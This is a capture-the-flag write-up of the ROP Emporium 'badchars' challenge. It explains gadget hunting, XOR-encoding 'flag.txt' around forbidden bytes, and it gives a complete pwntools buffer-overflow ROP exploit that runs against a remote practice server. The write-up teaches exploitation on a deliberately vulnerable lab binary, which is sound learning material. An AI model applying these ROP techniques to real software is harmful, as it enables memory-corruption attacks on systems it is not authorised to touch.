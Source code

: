 ```yaml
---
description: Avoiding forbidden characters that prematurely terminate execution.
---
```


# badchars

{% file src="../../.gitbook/assets/badchars.zip" %}

In this binary, we will handle a ROP chain where we can't introduce certain characters into our input otherwise the program will terminate. To handle this, we will use various gadgets to enter our input and then fix it so that it properly executes.

### Finding the Attack Vector

Running the binary shows us the bad characters:

```bash
$ ./badchars
badchars by ROP Emporium
x86_64

badchars are: 'x', 'g', 'a', '.'
> ok
Thank you!
```

Across multiple executions, the bad chars do not change. We can verify this in the debugger and note that the string printed is hardcoded, meaning that the bad chars are not meant to change.

Combing through `gdb` / `radare2`, we can check for our goal in the binary. We notice that we have `print_file` in the library and `print_file@plt` in _badchars_. This will be our goal. Like _write4_, we need to write _flag.txt_ into memory, then pass its address into `print_file` so its contents are read.

To do this, we need to gadget hunt to find our available maneuvers. We must remember we can't write _x_, _g_, _a_, or _._ in our input.

```bash
$ ROPgadget --binary badchars --only "pop|ret"
Gadgets information
============================================================
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040069e : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006a0 : pop r14 ; pop r15 ; ret
0x00000000004006a2 : pop r15 ; ret
0x000000000040069b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040069f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400588 : pop rbp ; ret
0x00000000004006a3 : pop rdi ; ret
0x00000000004006a1 : pop rsi ; pop r15 ; ret
0x000000000040069d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004004ee : ret
0x0000000000400293 : ret 0xb2ec
```

These are a good start. To write to memory, we will need a `mov` gadget that writes to a `QWORD PTR` from a register.

```bash
$ ROPgadget --binary badchars --only "mov|ret"
Gadgets information
============================================================
0x0000000000400635 : mov dword ptr [rbp], esp ; ret
0x0000000000400634 : mov qword ptr [r13], r12 ; ret
0x00000000004004ee : ret
0x0000000000400293 : ret 0xb2ec
```

We opt for the second gadget rather than the first because we can write all `8` bytes rather than `4` at a time. We'll take note that we need a `pop r12` and `pop r13` gadget, which we have:

```as
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
```

Now comes the kicker. We need a way to modify the data. The most common solution for this is to **`xor` the data with a known value**. This is because `xor` is its own inverse, meaning that `xor`ing the data with the same value will return the original data.

Let's hunt for a `xor` gadget:

```bash
$ ROPgadget --binary badchars --only "xor|ret"
Gadgets information
============================================================
0x00000000004004ee : ret
0x0000000000400293 : ret 0xb2ec
0x0000000000400628 : xor byte ptr [r15], r14b ; ret
0x0000000000400629 : xor byte ptr [rdi], dh ; ret
```

We'll take the third one. This gadget does a byte-wise `xor` of the contents of `r15` with `r14`b. `r14b` is the lowest byte of `r14`. This won't prove problematic; we already plan on using a small number to `xor`, so as long as it's a byte long, we're good.

Our popping gadget already helps us control `r14` and `r15`, which is perfect.

### Building the Exploit

Our exploit needs to do the following steps:

1. Overflow the buffer provided (which takes `40` bytes).
2. `xor` the flag with a small value to avoid the bad chars.
3. Align the stack with a call to `ret`.
4. Write our `xor`-ed copy of _flag.txt_ into memory.
5. Byte by byte, `xor` the data back to its original form.
6. Pass the address of the `xor`-ed data into `print_file`.

Let's do that step by step. We'll first address our binary, library, and process:

```python
elf = context.binary = ELF('./badchars')
libc = ELF('./libbadchars.so')
proc = remote('vunrotc.cole-ellis.com', 5500)
```

Overflowing the buffer is simple enough.

```python
padding = b'A' * 40
ropChain = b''
```

Now, we need to `xor` the data. We choose `0x2` because `0x1` turns the _f_ into a _g_, which is a bad character. To do this byte by byte, we can do the following:

```python
flag = bytes([b ^ 0x2 for b in b'flag.txt'])    # flag = b'dnce,vzv'
```

Then, we align the stack.

```python
g_ret = 0x400589
ropChain += p64(g_ret)
```

Now, we need to prepare to write the data into memory. We get an address in writeable memory that doesn't appear to be used. I explain more about this in [_write4_](write4.md). I chose `0x601038`, but there are lots of values to choose that work.

We need to pop the flag into `r12` and the address into `r13`. With some forethought, we know that we can also load `r14`. `r14` will contain the value we will use to `xor` the data, which was `0x2` from the previous step. We can load `r15` with a junk value.

```python
g_popR12R13R14R15 = 0x40069c	# pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
a_writeLoc        = 0x601038	# location to store a string
v_junk 		  = 0x4343434343434343

ropChain += p64(g_popR12R13R14R15)
ropChain += flag
ropChain += p64(a_writeLoc)
ropChain += p64(0x2)
ropChain += p64(v_junk)
```

Then, we need to call the method to write the data into memory.

```python
g_writeR12AtR13 = 0x400634 		# mov qword ptr [r13], r12 ; ret
ropChain += p64(g_writeR12AtR13)
```

Now, we need to `xor` the data back to its original form. This involves popping a byte into `r15` and then calling the `xor` function. `0x2` is already in `r14b`, so we don't need to do the initialization every time. This is best accomplished with a `for` loop:

```python
for i in range(8):
	ropChain += p64(g_popR15)
	ropChain += p64(a_writeLoc + i)
	ropChain += p64(g_xor1514)
```

Finally, we load the address into `rdi` and call `print_file`.

```python
ropChain += p64(g_popRdi)
ropChain += p64(a_writeLoc)
ropChain += p64(f_printfile)
```

We can now send the payload and get our flag.

```python
print(proc.readuntil(b'> '))
proc.send(padding + ropChain)
proc.interactive()
```

## Full Exploit

Here is the full exploit for reference.

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./badchars')
libc = ELF('./libbadchars.so')
proc = remote('vunrotc.cole-ellis.com', 5500)

v_junk 			= 0x4343434343434343
a_writeLoc 		= 0x601038	# location to store a string

f_printfile 		= 0x400510

g_ret 			= 0x400589
g_popRdi 		= 0x4006a3	# pop rdi ; ret
g_popR12R13R14R15	= 0x40069c	# pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
g_writeR12AtR13 	= 0x400634 	# mov qword ptr [r13], r12 ; ret
g_xor1514 		= 0x400628	# xor byte ptr [r15], r14b ; ret
g_popR15 		= 0x4006a2	# pop r15; ret;

# XOR flag with 0x2 to avoid the badchars
flag = bytes([b ^ 0x2 for b in b'flag.txt'])

padding = b'A' * 40
ropChain = b''

# align the stack
ropChain += p64(g_ret)

# load registers (r12=flag, r13=writeLoc, r14=0x2, r15=v_junk)
ropChain += p64(g_popR12R13R14R15)
ropChain += flag
ropChain += p64(a_writeLoc)
ropChain += p64(0x2)
ropChain += p64(v_junk)

# store flag in writeLoc
ropChain += p64(g_writeR12AtR13)

# xor each byte of flag with 0x2
for i in range(8):
	ropChain += p64(g_popR15)
	ropChain += p64(a_writeLoc + i)
	ropChain += p64(g_xor1514)

# call print_file with writeLoc
ropChain += p64(g_popRdi)
ropChain += p64(a_writeLoc)
ropChain += p64(f_printfile)

print(proc.readuntil(b'> '))
proc.send(padding + ropChain)
proc.interactive()
```
{% endcode %}

{% hint style="success" %}
An alternative solution achieves shell on this file by doing a GOT-overwrite. GOT-overwrites are covered in [_Section 0x8_](../08-got-overwrite/).
{% endhint %}